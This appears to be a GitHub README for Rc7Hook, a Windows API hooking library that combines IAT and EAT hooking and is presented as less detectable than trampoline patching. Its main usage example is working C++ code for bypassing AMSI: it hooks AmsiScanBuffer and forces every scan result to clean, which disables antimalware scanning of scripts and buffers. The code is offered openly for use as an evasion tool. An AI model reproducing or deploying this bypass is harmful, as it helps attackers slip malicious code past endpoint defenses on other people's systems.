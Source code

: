 
# Rc7Hook

A Patchless Windows API Hooking Library.


## How It Works
Rc7hook combines both [IAT Hooking](https://www.ired.team/offensive-security/code-injection-process-injection/import-adress-table-iat-hooking) and [EAT Hooking](https://www.codereversing.com/archives/598) to completely redirect the target function to the specified hook procedure.

This means there's no need for patching the function with a trampoline, which is more detectable.

## Running The Examples
```
Rc7hook.exe <EXAMPLE>
```
```
Examples:
- MessageBoxHook
- AmsiHook
```

## Usage
### AmsiScanBuffer Hook | Bypassing AMSI
```cpp
typeAmsiScanBuffer orgAmsiScanBuffer;
HRESULT hookAmsiScanBuffer(HAMSICONTEXT amsiContext, PVOID buffer, ULONG length, LPCWSTR contentName, HAMSISESSION amsiSession, AMSI_RESULT* result) {
	HRESULT orgCallResult = orgAmsiScanBuffer(amsiContext, buffer, length, contentName, amsiSession, result);

	(*result) = AMSI_RESULT_CLEAN;

	return orgCallResult;
}

void bypassAmsi() {

	// assuming that amsi.dll is loaded

	Rc7Hook amsiScanBufferHook{ "amsi.dll", "AmsiScanBuffer", hookAmsiScanBuffer, (PVOID*)&orgAmsiScanBuffer };

	if (amsiScanBufferHook.Enable()) {
		printf("[+] Enabled AmsiScanBuffer Hook!\n");
	}
	else {
		printf("[-] Failed to Enable AmsiScanBuffer Hook.\n");
	}

	printf("[*] Press a Key to Unhook.\n");
	getchar();

	if (amsiScanBufferHook.Disable()) {
		printf("[+] Disabled AmsiScanBuffer Hook!\n");
	}
	else {
		printf("[+] Failed to disable AmsiScanBuffer Hook.\n");
	}
}
```

## Credits
[EAT Hooking Article](https://www.codereversing.com/archives/598) by [Codereversing](https://www.codereversing.com/archives/598).
